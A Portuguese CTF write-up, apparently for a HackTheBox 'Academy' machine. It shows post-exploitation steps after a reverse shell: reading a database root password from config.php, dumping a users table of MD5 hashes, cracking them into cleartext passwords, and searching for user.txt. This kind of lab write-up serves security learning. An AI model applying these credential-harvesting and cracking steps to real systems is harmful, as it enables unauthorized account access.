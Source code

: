 ## User flag

Após realizar o upgrade do shell reverso, primeira coisa a se checar foi o arquivo **config.php** enumerado anteriormente, o qual encontra-se listado abaixo:

```bash
www-data@academy:/var/www/html$ cat ./academy/public/config.php 
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$link=mysqli_connect('localhost','root','GkEWXn4h34g8qx9fZ1','academy');
?>
```

Conectando à instancia local do MySQL utilizando das credenciais obtidas, notei que haviam alguns usuários criados na base, assim como o hash de suas senhas, que poderiam ter sido reutilizadas por algum dos usuários existentes nesta máquina.

```bash
$ mysql -u root -p
Password:

mysql> use academy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select * from users;
+----+----------+----------------------------------+--------+---------------------+
| id | username | password                         | roleid | created_at          |
+----+----------+----------------------------------+--------+---------------------+
|  5 | dev      | a317f096a83915a3946fae7b7f035246 |      0 | 2020-08-10 23:36:25 |
| 11 | test8    | 5e40d09fa0529781afd1254a42913847 |      0 | 2020-08-11 00:44:12 |
| 12 | test     | 098f6bcd4621d373cade4e832627b4f6 |      0 | 2020-08-12 21:30:20 |
| 13 | test2    | ad0234829205b9033196ba818f7a872b |      1 | 2020-08-12 21:47:20 |
| 14 | tester   | 098f6bcd4621d373cade4e832627b4f6 |      1 | 2020-08-13 11:51:19 |
+----+----------+----------------------------------+--------+---------------------+
```

Após algumas buscas, descobri que estes hashes foram gerados com MD5 antes de armazenados no banco. Utilizando alguns serviços online, as seguintes senhas foram obtidas:

- dev: **mySup3rP4s5w0rd!!**
- test8: **test8**
- test: **test**
- test2: **test2**
- tester: **test**

Agora que temos algumas senhas, precisamos validar qual usuário possivelmente possui a flag de user.txt. Executando o comando abaixo identificamos o arquivo no diretório do user **cry0l1t3**, para o qual tentaremos as senhas obtidas até o momento:

```bash
www-data@academy:/home$ find /home -type f 2>/dev/null | grep user.txt
/home/cry0l1t3/user.txt
```
